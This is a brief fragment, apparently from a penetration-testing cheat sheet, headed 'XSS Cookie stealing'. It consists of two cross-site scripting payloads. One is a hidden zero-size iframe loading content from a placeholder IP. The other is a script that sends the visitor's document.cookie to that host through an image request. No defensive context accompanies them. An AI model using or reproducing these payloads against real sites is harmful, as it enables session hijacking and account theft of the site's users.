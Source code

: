 = Exploitation Process

== XSS Cookie stealing

`<iframe src=http://<IP>/file height=”0” width=”0”></iframe>`

`<script>new Image().src="http://<IP>/image.jpg?output="+document.cookie;</script>`
